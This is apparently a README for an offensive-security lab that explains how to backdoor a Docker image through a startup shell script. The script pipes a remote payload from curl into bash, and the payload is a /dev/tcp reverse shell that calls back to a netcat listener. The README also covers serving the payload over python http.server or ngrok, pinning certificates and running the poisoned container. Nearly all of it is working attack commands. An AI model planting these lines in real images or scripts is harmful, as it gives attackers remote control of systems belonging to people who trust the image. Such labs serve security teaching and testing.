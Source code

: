 # Backdoored shell script in container image

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```curl -s http://<ip_address>:8000/payload.txt | bash```

For added security use public key pinning (See the section [Using ngrok for your payload server address](https://github.com/sneakerhax/OffensiveDocker/blob/main/Labs/backdoored_image_sh/README.md#using-ngrok-for-your-payload-server-address)):

```curl -Iksv --pinnedpubkey sha256//0 https://<your_site>.com```

Use the value from output called public key hash (This is the format curl will expect in the next command)

```curl -sk --pinnedpubkey <format>//<key_hash> https://<your_site>.com```

This will curl the website with the public key pinned (-k is used if you have a self signed certificate)

### Build the image

* Update line 4 with the ip address of your payload server

```docker build -t backdoor .```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```touch payload.txt```


### Add your payload (in this example the reverse shell)

```nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```python3 -m http.server```

### Using ngrok for your payload server address

```ngrok http 8000 -bind-tls=true```

Starts an ngrok listener and gives you a public address (You will need to follow the [Building the image](https://github.com/sneakerhax/OffensiveDocker/tree/main/Labs/backdoored_image_sh#building-the-image) section to grab the certificate)

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```netcat -lkvp 8080```

## Start your container

This step emulates what will occur when the backdoored image is deployed and the container starts. The script in the case will only execute once when the container is started

### Start the Docker container (execute the payload)

```docker run -it backdoor```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)

